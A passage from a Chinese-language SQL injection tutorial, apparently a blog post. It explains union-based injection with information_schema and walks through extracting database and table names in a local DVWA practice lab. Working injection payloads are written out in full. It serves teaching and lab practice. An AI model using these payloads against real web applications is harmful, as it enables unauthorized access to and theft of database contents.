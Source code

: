   ```sql
  -- 显示所有表名以及对应的数据库。
  select table_schema, table_name,column_name from information_schema.columns;
  ```

在查询表的时候，可以用where 除去系统自带的几张表：

```sql
where table_schema!='information_schema' and table_schema!='sys' and table_schema!='performance_schema' and table_schema!='mysql';
```

知道这个了，我们还需要知道，**如何获取当前数据库的名字？**

```sql
'union select database(); #
```

通过union 注入获取当前的数据库名字.

通过这个数据库，**可以获取当前数据库中的任意数据**。

那么当前服务器会存在多个数据库，如何跨库访问?，这样就可以实现利用旁站攻击的思路。这个放到后面来说

##### 流程总结

- 寻找注入点
- 查询当前数据库名字。
- 利用information_schema 数据库，了解到要查询数据的表以及字段。
- 利用union进行查询。



##### 案例一

[默认80端口的dvwa中low等级的sql注入实验](http://localhost/dvwa/vulnerabilities/sqli/)

<img src="https://www.crabglory.club/img/post/network security/images/dvwa_lib/sql_inject_low.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="80px"/>

获取数据库名:

注意下面这个注入语句，是实验出来的，一开始是没有select 1的，1是为了合乎查询数据要形成两列而写的，不然报错无法查询。

```sql
1' union select 1, database() ; #
```

<img src="https://www.crabglory.club/img/post/network security/images/dvwa_lib/sql_inject_low_database_name.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="100px"/>

可以知道当前数据库是：dvwa；

查询一下dvwa所有的表以及字段

```sql
1' union select table_name, column_name from information_schema.columns where table_schema="dvwa"; #
```

<img src="https://www.crabglory.club/img/post/network security/images/dvwa_lib/sql_inject_low_dvwa_table_1.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="400px"/>

这里就以users表来继续获取信息。
